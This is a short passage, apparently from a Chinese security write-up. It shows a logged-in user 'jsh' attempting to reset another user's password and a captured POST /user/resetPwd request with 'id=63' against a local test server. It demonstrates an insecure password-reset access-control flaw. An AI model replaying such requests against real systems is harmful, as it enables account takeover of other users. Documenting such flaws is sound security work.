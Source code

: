 用户原始密码

[![](assets/1706957928-10be4837d57e0b1ccb49c1f3f3f1824d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201233607-9e122b88-c117-1.png)

现在登陆 jsh 用户，尝试重置 test123 用户密码

[![](assets/1706957928-a20ae5e0d7e697bd31496f09917d0f9b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201233617-a43350f0-c117-1.png)

抓包

```plain
POST /user/resetPwd HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 5
Origin: http://127.0.0.1:8080
Connection: close
Referer: http://127.0.0.1:8080/pages/manage/user.html
Cookie: Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1706618997,1706707611,1706717491; JSESSIONID=30DAE0DC23EE5303A1CFE03DD4394A2F; Hm_lpvt_1cd9bcbaae133f03a6eb19da6579aaba=1706781674
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

id=63
```
